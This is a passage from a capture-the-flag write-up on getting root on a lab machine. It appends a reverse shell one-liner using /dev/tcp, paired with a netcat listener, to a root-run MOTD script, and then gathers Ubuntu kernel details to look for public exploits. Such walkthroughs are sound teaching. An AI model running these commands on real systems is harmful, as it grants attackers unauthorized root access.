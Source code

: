 ```bash

sh /opt/cube/cube.sh
```

That very last line.

### Privilege Escalation / Privileged Access

There are at least two ways to get `root` on this box.

#### OPTION 1: Use command injection on the MOTD/cube.sh

Since we have the ability to modify this `cube.sh` file, what if we had a kill-chain of:

1. Start Netcat listening on our machine on port 9000 via `nc -lvnp 9000`
2. Add a [one-liner reverse shell](https://www.revshells.com/) to the end of this file, like: `sh -i >& /dev/tcp/10.6.90.119/9000 0>&1`
3. Login via SSH again to trigger the reverse shell to run.

In theory, the SSH login should trigger the Message of the Day (MOTD), which should run `cube.sh` (as `root`) which should create a reverse shell connection to our awaiting Netcat.

#### OPTION 2: Use ExploitDB to take advantage of old OS kernel

In this approach, we see the OS information and the Linux Kernel information:

```bash
# Show OS info
cat /etc/os-release

# Show Kernel info
uname -a
```

That results in:

```text
NAME="Ubuntu"
VERSION="16.04.4 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.4 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial
```

and

```text
Linux fowsniff 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```
